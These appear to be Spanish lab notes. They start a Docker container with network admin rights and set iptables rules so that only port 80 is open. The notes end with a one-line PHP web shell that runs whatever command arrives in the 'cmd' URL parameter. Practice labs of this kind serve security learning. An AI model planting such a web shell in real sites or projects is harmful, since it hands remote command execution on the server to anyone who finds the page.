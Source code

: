 
---
(Ejecutar el comando)
```
sudo docker run -dit -p 80:80 --cap-add=NET_ADMIN --name myContainer my-image
```

(Ejecutar el comando)
	docker exec -it myContainer bash 
(Ejecutoar un iptables)
iptables --flush
(Por el portocolo tcp por el puerto ochenta todas las conexiones son aceptadas)
iptables -A INPUT -p tcp --dport 80 -j ACCEPT
(Configurar el iptables para que me anden todos los puertos excepto el que quiero)
iptables -A INPUT -p tcp --dport 0:65535 -m conntrack --ctstate NEW -j DROP

creamos el siguiente nano 
<?
        echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
?>
